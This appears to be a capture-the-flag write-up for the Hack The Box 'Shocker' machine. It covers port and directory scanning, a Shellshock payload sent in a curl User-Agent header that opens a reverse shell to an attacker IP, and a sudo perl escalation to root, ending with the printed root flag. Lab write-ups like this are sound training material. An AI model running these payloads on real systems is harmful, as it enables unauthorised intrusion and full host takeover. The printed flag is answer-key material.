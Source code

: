 
```
sudo nmap -sV shocker.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 21:59 CEST
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```

feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php

feroxbuster -u http://10.10.10.56 -f -n -C 404 --dont-filter
```
403      GET       11l       32w      294c http://10.10.10.56/cgi-bin/
200      GET      234l      773w    66161c http://10.10.10.56/bug.jpg
200      GET        9l       13w      137c http://10.10.10.56/
403      GET       11l       32w      292c http://10.10.10.56/icons/
403      GET       11l       32w      300c http://10.10.10.56/server-status/

```

feroxbuster -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php,sh,cgi
```
200      GET        7l       17w      118c http://shocker.htb/cgi-bin/user.sh

```

While looking at 

http://shocker.htb/cgi-bin/user.sh

from there all we need is a shell 
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.11/4444 0>&1"' http://shocker.htb/cgi-bin/user.sh
```



```bash
shelly@Shocker:/home$ cd shelly
cd shelly
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt

shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
    
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
whoami
root

cd /root
ls
root.txt
cat root.txt
e435766c3a474bc01d29d3a5ac17c3c4
```